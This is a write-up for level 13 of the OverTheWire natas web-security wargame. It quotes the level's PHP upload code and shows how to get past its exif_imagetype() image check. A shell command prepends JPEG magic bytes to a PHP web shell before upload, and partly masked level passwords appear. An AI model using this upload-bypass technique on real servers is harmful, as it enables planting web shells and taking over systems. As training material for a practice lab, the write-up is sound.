 # level 13

**Host**: http://natas13.natas.labs.overthewire.org
>natas13:trbs5pCjCrkuSknBBKHhaB**********

When you visit the site, you get the following message:

```
For security reasons, we now only accept image files!

Choose a JPEG to upload (max 1KB):
```

### Solution:

When you click on the "View source" link you get following php code:

```php
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```

This time the `exif_imagetype()` function is used to identify the file type which reads the first bytes of an image and checks its signature, so we can just inject some `.jpg` "magicbytes" to our `shell.php`.

You can grab the magicbytes from a legit `.jpg` file and add your `shell.php`so the upload filter is bypassed.

```shell
head -c 20 legit.jpg > shell2.php && cat shell.php >> shell2.php
```

Now just repead the same upload process with intercepting from the privious level, but this time with the new `shell2.php` and grab the password for natas14 from the response.

```http
HTTP/1.1 200 OK
Date: Thu, 04 Sep 2025 11:15:11 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 85
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

z3UYcr4v4uBpeX8f7EZbMH**********
```
